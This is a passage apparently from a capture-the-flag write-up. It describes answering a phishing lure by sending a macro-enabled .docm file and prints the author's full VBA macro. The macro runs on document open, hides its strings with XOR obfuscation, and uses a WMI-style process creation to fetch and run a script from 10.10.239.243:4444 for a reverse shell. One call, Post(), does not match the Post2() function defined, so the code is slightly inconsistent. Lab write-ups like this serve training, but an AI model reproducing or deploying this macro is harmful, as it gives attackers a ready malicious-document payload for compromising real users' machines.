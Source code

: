 Anyway, once you have access to the imap server, you will see some emails requesting a document with credentials. It specifies that the document should be `.docx`, but `.docm` works as well which is important since you can't put macros in a docx file. The macro I used to get a reverse shell was the following:

```vba
Function Pre()
    Pre = Array(4, 7, 30, 22, 27, 0, 9, 17, 9, 31, 84, 69, 0, 20, 9, 12, 87, 13, 11, 28, 5, 7, 27, 73, 94, 7, 28, 17, 84, 72, 4, 84, 0, 12, 8, 8, 10, 25, 79, 95, 15, 68, 29, 13, 17, 91, 65, 29, 4, 3, 72, 28, 22, 2, 0, 15, 24, 79, 4, 22, 1, 24, 1, 25, 70, 7, 22, 29, 93, 22, 17, 7, 16, 24, 1, 0, 2, 24, 70, 89, 11, 29, 27, 10, 24, 7, 8, 23, 26, 7, 19, 29, 11, 20, 92, 79, 13, 24, 24, 31, 77, 64, 93)
End Function
Function Post2()
    Post2 = Array(83, 65, 64)
End Function
Function Source()
    Source = Array(3, 1, 7, 30, 14, 30, 21, 7, 95)
End Function
Function Dest()
    Dest = Array(35, 1, 7, 64, 91, 44, 49, 6, 10, 16, 17, 27, 22)
End Function
Function Key()
    Key = "thisisatesthelloworld"
End Function
Function Comb(parts)
    For i = LBound(parts) To UBound(parts) - 1:
        Comb = Comb + Trim(parts(i) + ".")
    Next
    Comb = Comb + Trim(parts(UBound(parts)))
End Function
Function Eval(equation)
    k = Key()
    For i = LBound(equation) To UBound(equation)
        j = i Mod Len(k) + 1
        kv = Asc(Mid(k, j, 1))
        res2 = res2 + Chr(equation(i) Xor kv)
    Next
    Eval = res2
End Function
Sub Test()

a = 266
b = 266
c = 239
d = 243
dd = 4444
E = "run"
f = "txt"

r = Array(Str(a - 256), Str(b - 256), Str(c), Str(d))
f = Comb(r) + ":" + Trim(Str(dd)) + "/" + Comb(Array(E, f))

s = Trim(Eval(Pre())) + f + Eval(Post())
i = Eval(Source())
j = Eval(Dest())
GetObject(i).Get(j).Create s, Null, Null, -1
'MsgBox (s)

End Sub
Sub AutoOpen()
    Test
End Sub
```
